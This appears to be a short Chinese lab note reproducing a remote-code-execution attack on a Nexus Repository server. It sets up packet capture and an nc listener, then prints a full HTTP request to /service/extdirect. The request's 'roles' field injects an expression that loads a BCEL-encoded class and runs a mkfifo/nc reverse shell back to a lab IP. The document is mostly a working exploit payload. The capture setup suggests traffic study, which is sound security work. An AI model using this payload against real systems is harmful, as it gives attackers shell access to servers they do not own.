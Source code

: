 1.靶机中使用`tcpdump`对容器中`Devnet`网卡进行监听并将监听结果写入pcap包；

攻击机执行`nc -lvnp 6666` 监听端口接收回连shell；

`yakit`发送自制POC进行反弹shell：

```
POST /service/extdirect HTTP/1.1
Host: 192.168.109.10:9001
Cookie: NXSESSIONID=3ca5fe18-1417-4694-88a4-f6fd8f2a6b28
Content-Type: application/json
Origin: http://192.168.109.10:9001
Referer: http://192.168.109.10:9001/
X-Nexus-UI: true
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 221

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"10","firstName":"Administrator","lastName":"User1","email":"admin@example.org","status":"active","roles":["${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$ff$8dSMS$d3P$U$3d$8f$b6I$J$v$U$K$94$60QA$c5P$uU$E$3fZD$Fq$86$Z$40$87$3a$3a$ZWi$fa$c0$60I$3ai$ca$b0r$e5$7fq$ab$9b$d6$91$d1$a5$L$7f$87$L$fd$P$8ex_Z$3e$8a$ca$d8I$df$cb$bb$f7$9c$7b$eeG$de$d7_$l$3f$D$98$c5$p$F$j$I$c9$I$ab$88$40b$88o$9b$bbf$b6l$3a$5b$d9$c7$c5mn$f9$M$d2$bc$ed$d8$fe$CCH$9fx$a6$m$8aN$Z$8a$8a$$$a8$M$bd$c7$f0$8d$9a$e3$db$3b$9cA$d9$e2$fe$d1a$40$9fX$fd$D$93$97$d1$dd$sU$f0$3d$db$d9$8a$o$ce$mg$8b$b6$93$ad$be$8c$a2$8f$a1$pc$J$c1$7e$V$D$Yd$I$f3$3dn1$e8$fa$8b$d5$d3$dc$fcI$99$t$9ek$f1j$95d$86$Y$G$D$bb$edf$Xk$9b$9b$dc$e3$a5$Nn$96$b8$tc$98A$3b$f4$ad8$95$9aO$91$b8$b9$d3t$xHaD$c6y$V$Xp$b1$ad$ceVp$86n$aa$f3$E$8f$nyXk$7b$c0$bc$C$Nc$a2$bf$97$Y$86$f4$bfBDc$93$b8$o$40$e3$M$89cP3$9b$c0$9f$82$aebBd$p$94$97$3d$cf$f5$9al$Z$93$q$7e$ba$p$8b5$bb$i$U$92FH$E$9fV$91$c55$86$uQJ$ab$b6C$c3$e9o$hN$ab$91$820$a3$e2$Gfi$f4f$a5$c2$9d$SCF$3f$bb$e3m$92A$88$9b$o$c4$z$86$94$bet6$f0$8e$8a$5c$90$97$ef6$9d2$e6$Z$o$7c$d7$y$cf$d0$c8$97$dc$Se$da$p$S$5e$af$ed$U$b9$f7$d4$y$96$c92$fe_$Z$e5$Zb$F$df$b4$5e$ad$99$95$WQY$de$b3x$c5$b7$5d$a7$wc$89$9a$7d$cc9$f2$Q$aa$e0$d6$3c$8b$3f$b2$DJ$90$cc$b4$Ab$Uy$ba1$e2$d7$B$s$ee$M$adw$e94B$3b$a3$3d$92n$80$bd$a7$X$86$FZ$a5$c0$Y$a6u$A$f7$88$o$a0$df$88$s$d3$fe$e6$Dd$e9$TbF$a8$af$a7$60$84$fbz$LFd$b2PGbm$lIc$l$9a1U$c7$b9$GF$h$b8$bc$7e$c2t$b5i$ca$85$f7$916$g$98$caE2ud$8c$9c$f4$F$J$z$a2Iu$5c$8f$xu$cc$3d$7f$7b$f0C$L$ff$cb$f5$5d$8b$d4q$fb$5dP$88$c8t$i$9d$b4F$e9$5b$ed$c2$YTL$n$869t$e3$3e$e2XA$C$W$fa$f1$g$83t$G$f9C$Hd$94d$d0$j$8b$c9H$c9H$GO$g$f8$J$8dl$c3x$d0$aa$7b$91$fe$P$D$95$e5$df$5d$90$g$iv$E$A$A').newInstance().exec('rm -f /tmp/f;mkfifo /tmp/f;/bin/sh -i < /tmp/f 2>&1 | nc 192.168.109.10 6666 > /tmp/f')} "]}],"type":"rpc","tid":24}
```
